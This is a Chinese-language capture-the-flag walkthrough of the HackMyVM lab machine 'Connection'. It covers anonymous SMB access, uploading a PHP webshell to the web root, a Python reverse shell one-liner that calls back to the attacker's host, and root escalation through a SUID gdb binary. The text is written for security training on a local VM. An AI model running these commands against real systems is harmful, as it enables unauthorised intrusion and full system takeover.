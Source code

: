 # Connection

:::note

[Linux VM] [Tested on VirtualBox] created by || whitecr0wz

⏲️ Release Date // 2020-09-25

✔️ MD5 // 530e8d12ae6fc543a13971d6ca4549fb

☠ Root // 318

💀 User // 316

📝Notes //
Nice and easy VM ;)

:::

## 靶机启动

![靶机启动](img/image_20231203-100315.png)

靶机 IP：

```plaintext
192.168.56.106
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.106
Host is up (0.00036s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 b7e601b5f906a1ea40042944f4df22a1 (RSA)
|   256 fb1694df9389c7568584229ea0be7c95 (ECDSA)
|_  256 452efb8704ebd18b926f6aea5aa2a11c (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:F1:44:FD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: Host: CONNECTION; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h39m58s, deviation: 2h53m12s, median: -1s
| smb2-time:
|   date: 2023-12-23T02:03:57
|_  start_date: N/A
|_nbstat: NetBIOS name: CONNECTION, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: connection
|   NetBIOS computer name: CONNECTION\x00
|   Domain name: \x00
|   FQDN: connection
|_  System time: 2023-12-22T21:03:57-05:00
```

## 探测 web 服务

![web /](img/image_20231207-100701.png)

就是 Debian 的默认页面，并且目录爆破扫描没有有价值的信息

## 利用 smb 服务

列出服务器上 smb 服务的信息

```bash
┌─[✗]─[randark@randark-Parrot]─[~]
└──╼ $smbclient --no-pass -L //192.168.56.106
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        share           Disk
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Private Share for uploading files)
SMB1 disabled -- no workgroup available
```

发现一个 `share` 目录，进入终端查看内容

```bash
┌─[randark@randark-Parrot]─[~]
└──╼ $smbclient -N \\\\192.168.56.106/share
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 23 09:48:39 2020
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  html                                D        0  Wed Sep 23 10:20:00 2020

                7158264 blocks of size 1024. 5438556 blocks available
smb: \> cd html
smb: \html\> ls
  .                                   D        0  Wed Sep 23 10:20:00 2020
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  index.html                          N    10701  Wed Sep 23 09:48:45 2020

                7158264 blocks of size 1024. 5438556 blocks available
```

可以推断这个目录为 web 服务的工作目录，尝试写 php 马

```bash
smb: \html\> put webshell.php
putting file webshell.php as \html\webshell.php (7.8 kb/s) (average 7.8 kb/s)
smb: \html\> ls
  .                                   D        0  Sat Dec 23 10:24:12 2023
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  index.html                          N    10701  Wed Sep 23 09:48:45 2020
  webshell.php                        A       32  Sat Dec 23 10:24:12 2023

                7158264 blocks of size 1024. 5438540 blocks available
```

访问 web 服务，发现可以被正常解析

```bash
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Connection]
└──╼ $http get 192.168.56.106/webshell.php
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 0
Content-Type: text/html; charset=UTF-8
Date: Sat, 23 Dec 2023 02:25:00 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.38 (Debian)
```

尝试蚁剑连接，成功 getshell

![蚁剑 成功连接](img/image_20231226-102601.png)

## user pwned

![蚁剑 /home/connection/local.txt](img/image_20231226-102644.png)

```plaintext title="/home/connection/local.txt"
3f491443a2a6aa82bc86a3cda8c39617
```

## 进一步稳定 shell 加以利用

利用插件，执行反弹 shell

![蚁剑 反弹 shell](img/image_20231228-102843.png)

成功收到回连 shell

```bash
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Connection]
└──╼ $nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.106] 37550
whoami
www-data
```

并利用 pwncat-cs 进一步稳定 shell

```bash
python3 -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",9999));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

成功稳定 shell

![pwncat-cs 收到回连 shell](img/image_20231232-103248.png)

## 提权探测

```plaintext title="sudo -l"
bash: sudo: command not found
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/gpasswd
```

在 suid 二进制文件中，发现一个特殊文件

```plaintext
-rwsr-sr-x 1 root root 7.7M Oct 14  2019 /usr/bin/gdb
```

## 利用 gdb 进行提权

```bash
(remote) www-data@connection:/var/www/html$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
[](remote)[] []root@connection[]:[]/var/www/html[]$ whoami
root
```

## root pwned

```plaintext title="/root/proof.txt"
a7c6ea4931ab86fb54c5400204474a39
```
